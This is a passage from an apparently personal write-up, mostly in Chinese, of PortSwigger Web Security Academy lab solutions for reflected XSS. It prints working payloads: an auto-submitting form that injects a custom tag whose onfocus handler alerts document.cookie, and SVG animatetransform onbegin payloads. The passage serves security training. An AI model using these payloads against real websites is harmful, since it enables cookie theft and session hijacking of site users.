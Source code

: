 To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie. 
### 題目解釋
Custom tag XSS

### 解答

Chrome Only
```
<form id="myForm" name="myForm" action="https://acbe1f0f1e18558ac0ee66a900380039.web-security-academy.net/#x" method="GET">
<input type=hidden name="search" id="search" value="<xss id=x onfocus=alert(document.cookie) tabindex=1>"/>
<script>document.createElement('form').submit.call(document.getElementById('myForm'))</script>
```

## [Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

### 題目敘述
 This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function. 

### 題目解釋
svg XSS

### 解答
先測試確定可以用 `<svg>`

而 svg 有 4 個子 tag, `animate`, `animatemotion`,`animatetransform`, `set`

測了一下
```
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```
就可以跳 alert 了，但依然無法解，不知道為什麼 QQ


用官方解也能跳，但不能解，感覺是題目壞掉了 (2022/2/19)
```
"><svg><animatetransform onbegin=alert(1)>
```

## [Lab: Reflected XSS in canonical link tag](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag)
### 題目敘述
 This lab reflects user input in a canonical link tag and escapes angle brackets.

